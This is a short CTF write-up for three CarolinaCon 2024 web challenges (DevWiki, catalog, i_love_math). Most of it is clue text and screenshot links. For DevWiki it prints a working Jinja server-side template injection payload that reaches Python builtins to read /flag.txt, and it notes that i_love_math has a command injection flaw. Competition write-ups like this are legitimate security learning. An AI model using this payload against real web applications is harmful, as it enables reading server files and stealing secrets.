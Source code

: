 # DevWiki
### category: web

## clue
```
I forgot to copy the clue, it was a wiki webapp
```

## flag
SSTI:
```
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
```
![devwiki1](https://raw.githubusercontent.com/btaub/misc-scripts/refs/heads/master/ctf/carolinaCon-2024/images/devwiki1.png)
![devwiki2](https://raw.githubusercontent.com/btaub/misc-scripts/refs/heads/master/ctf/carolinaCon-2024/images/devwiki2.png)


---
# catalog
### category: web
## clue

```
We recently launched our website for a local bookstore after with a remote consulting company. The developer ensured us that it was secure. Our IT department is now hounding us about updates the developer needs to make because users are reporting they cannot find any books on the site.

Can you help us figure out what is going on?

[http://challenges.carolinacon.org:8012](http://challenges.carolinacon.org:8012)
```
## flag

![catalog.png](https://raw.githubusercontent.com/btaub/misc-scripts/refs/heads/master/ctf/carolinaCon-2024/images/catalog.png)

---

# i_love_math

### category: web

## clue

```
We were asked to host a calculator as a service for a client. It seems that some malicous attackers keep access our network environment using it's interface.

Can you help us figure out how?

[http://challenges.carolinacon.org:8010](http://challenges.carolinacon.org:8010)
```
## flag

command injection vuln

![i_love_math .png](https://raw.githubusercontent.com/btaub/misc-scripts/refs/heads/master/ctf/carolinaCon-2024/images/%20i_love_math%20.png)


